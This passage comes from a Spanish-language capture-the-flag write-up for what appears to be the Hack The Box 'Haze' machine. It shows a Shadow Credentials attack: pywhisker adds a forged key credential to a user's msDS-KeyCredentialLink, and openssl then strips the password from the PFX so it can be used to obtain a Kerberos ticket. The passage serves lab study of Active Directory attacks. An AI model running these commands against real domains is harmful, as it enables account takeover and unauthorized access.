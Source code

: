 ### 4. **Ataque Shadow Credentials**

```bash
python3 pywhisker.py -d "haze.htb" -u "Haze-IT-Backup$" --target edward.martin --action add
```

![paste](./images/27.jpeg)

Nos generara tres archivo y el que vamos a necesitar el .pfx

![paste](./images/28.jpeg)

- **Shadow Credentials**: Técnica que explota la autenticación PKINIT de Kerberos
- Añade una clave criptográfica falsa al atributo `msDS-KeyCredentialLink` de edward.martin
- Genera un certificado PFX que puede usar para autenticarse como edward

### 5. **Obtención del TGT (Ticket Granting Ticket)**

Los archivos que obtenemos son 3 de esos tres el que nos interesa es el .pfx pero esta protegido con contraseña para evitar problemas se la quitaremos 

```bash
openssl pkcs12 -in fZ2UrXB8.pfx -out temp.pem -passin pass:fE2aQfpBSKj7LTArPaSW -passout pass:
```

```bash
openssl pkcs12 -export -in temp.pem -out QmBfTWEv_nopass.pfx -passout pass:
```

![paste](./images/29.jpeg)
